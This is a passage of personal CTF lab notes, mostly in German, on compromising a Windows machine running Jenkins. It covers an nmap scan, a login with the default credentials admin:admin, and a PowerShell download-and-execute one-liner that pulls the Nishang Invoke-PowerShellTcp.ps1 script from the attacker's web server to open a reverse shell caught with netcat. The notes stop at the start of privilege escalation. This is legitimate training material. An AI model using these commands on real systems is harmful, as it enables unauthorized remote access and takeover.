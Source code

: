 Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).


# Ziel: 10.10.38.83

# Initial Access
## Scanning 

Nmap 
80/tcp   open  http           Microsoft IIS httpd 7.5
3389/tcp open   ms-wbt-server?
8080/tcp open  http           Jetty 9.4.z-SNAPSHOT


## Exploiting 
Login Page für Jenkins unter 10.10.38.83:8080 gefunden

Test von Default user&Passwort 
admin:admin
->  Erfolgreicher login

von THM Kommentar 

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: _powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.242.69:8000/Invoke-PowershellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.242.69 -Port 4444
```

->  Rev Shell anbieten auf eigenen http server
->  Feature finden um die Shell auf dem ziel zu laden
-> Rev Shell mit NC fangen

Shell auf http Server anbieten: 

```
python3 -m http.server
```

-> webserver auf localip:8000

http://10.10.242.69:8000/Invoke-PowershellTcp.ps1

-> Upload Möglichkeit via Project Configure gefunden ->  Auch Ausführung möglich
->  Rev Shell erhalten
-> User alfred\bruce


# Priv Escalation

Hier wird vorgegeben das wir token impersination nutzen werden